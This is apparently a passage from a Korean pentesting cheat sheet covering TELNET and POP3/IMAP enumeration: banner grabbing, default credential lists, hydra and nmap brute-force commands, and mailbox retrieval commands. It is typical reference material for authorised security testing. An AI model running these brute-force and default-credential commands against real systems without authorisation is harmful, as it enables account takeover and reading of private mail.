 - [ ] **수집된 정보 분석**
- [ ] **다른 서비스와 연계**
- [ ] **크레덴셜 정보 활용**
- [ ] **추가 공격 준비**

---

## 🎯 상황별 대응

### 📞 TELNET (Port 23)

```bash
# 기본 연결
telnet {IP} 23

# 배너 그래빙
nc -nv {IP} 23

# 기본 자격증명 시도
# 연결 후: admin/admin, root/root, admin/password

# Cisco 장비 (일반적)
# Username: cisco, Password: cisco
# Username: admin, Password: admin

# 브루트포스
hydra -l admin -P /usr/share/wordlists/rockyou.txt telnet://{IP}
hydra -L users.txt -P passwords.txt telnet://{IP}

# Nmap 스크립트
nmap --script telnet-brute -p 23 {IP}
nmap --script telnet-ntlm-info -p 23 {IP}
```

### 📧 POP3/IMAP (Port 110/143/993/995)

```bash
# POP3 (110) 기본 연결
telnet {IP} 110
nc -nv {IP} 110

# POP3 명령어
USER username
PASS password
LIST
RETR 1
QUIT

# IMAP (143) 기본 연결
telnet {IP} 143
nc -nv {IP} 143

# IMAP 명령어
LOGIN username password
LIST "" "*"
SELECT INBOX
FETCH 1 BODY[]
LOGOUT

# SSL/TLS 버전 (993 IMAPS, 995 POP3S)
openssl s_client -connect {IP}:993
openssl s_client -connect {IP}:995

# 브루트포스 공격
```